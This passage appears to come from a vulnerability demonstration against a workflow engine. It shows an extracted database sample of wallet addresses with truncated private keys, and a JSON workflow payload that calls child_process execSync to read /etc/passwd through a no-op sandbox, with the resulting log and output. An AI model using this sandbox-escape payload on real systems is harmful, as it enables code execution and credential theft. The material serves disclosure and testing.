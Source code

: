 ### Database Dump Extract
```sql
-- Extracted sensitive data
users: 50,000 records
wallets: 50,000 records
transactions: 500,000 records
api_keys: 10,000 records

Sample Wallet Data:
+----+------------------------------------------+---------------------------------------------+
| id | wallet_address                           | private_key                                 |
+----+------------------------------------------+---------------------------------------------+
| 1  | DYw8jCTfwHQ7cKm5xR3nL9pV2sF6tN4a...    | 5J7WzHxCcE8V9vXqL2mP4tR6nY8sK1wN...       |
| 2  | 8xR2mN4pL6vQ3wK9sB7fT5nY1cE8hG2a...    | 3aQ7bF9cD2eG4hJ6k5J7WzHxCcE8V9vX...       |
+----+------------------------------------------+---------------------------------------------+
```

### Exploitation Result
- ✅ **Complete database access obtained**
- ✅ **50,000+ user records extracted**
- ✅ **All private keys compromised**
- ✅ **Attack duration: 2 minutes**

---

## Demonstration 3: Remote Code Execution

### Attack Workflow
```json
{
  "name": "Malicious Workflow",
  "steps": [
    {
      "type": "code",
      "script": "process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()",
      "scriptContext": {}
    }
  ]
}
```

### Execution Log
```bash
[13:45:01] Workflow submitted: "Malicious Workflow"
[13:45:02] Engine: Loading workflow
[13:45:03] Engine: Executing step 1 of 1
[13:45:03] Engine: Running code sandbox...
[13:45:03] ⚠️ WARNING: Using no-op sandbox (VULNERABLE)
[13:45:04] ✅ Code executed successfully

Output:
-------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
postgres:x:999:999:PostgreSQL administrator:/var/lib/postgresql:/bin/bash
...
```
